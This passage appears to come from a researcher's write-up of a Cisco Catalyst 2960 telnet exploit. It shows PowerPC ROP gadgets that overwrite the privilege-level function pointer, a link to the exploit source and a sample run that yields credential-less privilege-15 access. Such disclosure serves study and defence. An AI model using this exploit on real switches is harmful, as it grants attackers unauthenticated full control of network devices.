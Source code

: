 ```nasm
0x006ba128: 
    lwz r31, 8(r1)
    lwz r30, 0xc(r1)
    addi r1, r1, 0x10
    lwz r0, 4(r1)
    mtlr r0
    blr
```

Previous two gadgets load a pointer of `get_privilege_level` function into `r3`, and the value to overwrite it with into `r31`. The target value is a function that returns 15 (could've used this function for both writes tho):

![return 15 function]({{ site.url }}/assets/cisco/return_15_function.png)


```nasm
0x0148e560: 
    stw r31, 0(r3)
    lwz r0, 0x14(r1)
    mtlr r0
    lwz r31, 0xc(r1)
    addi r1, r1, 0x10
    blr
```

This epilog makes the final write and returns to the legitimate execution flow. Of course, stack frame should be formed accordingly to make this rop chain work. Check out the exploit [source](https://github.com/artkond/cisco-rce/blob/master/c2960-lanbasek9-m-12.2.55.se1.py) to see the actual stack layout for this chain to work as intended.

### Running the exploit

At the end of the day I ended up with a tool with the ability to patch function pointers responsible for credless connection and privilege level. Note that the exploit  code is heavily dependent on the exact firmware version used on the switch. Using exploit code for some different firmware most probably will crash the device.

I used the knowledge from static and dynamic analisys of an older firmware SE1 to build an exploit for the latest suggested firmware 12.2(55)SE11. All the difference between firmware versions is different functions and pointers offsets. Also, the way the exploit works makes it easy to revert the changes back. Example:

```
$ python c2960-lanbasek9-m-12.2.55.se11.py 192.168.88.10 --set
[+] Connection OK
[+] Recieved bytes from telnet service: '\xff\xfb\x01\xff\xfb\x03\xff\xfd\x18\xff\xfd\x1f'
[+] Sending cluster option
[+] Setting credless privilege 15 authentication
[+] All done
$ telnet 192.168.88.10
Trying 192.168.88.10...
Connected to 192.168.88.10.
Escape character is '^]'.

catalyst1#show priv
Current privilege level is 15
catalyst1#show ver
Cisco IOS Software, C2960 Software (C2960-LANBASEK9-M), Version 12.2(55)SE11, RELEASE SOFTWARE (fc3)
...

System image file is "flash:c2960-lanbasek9-mz.122-55.SE11.bin"

...

```
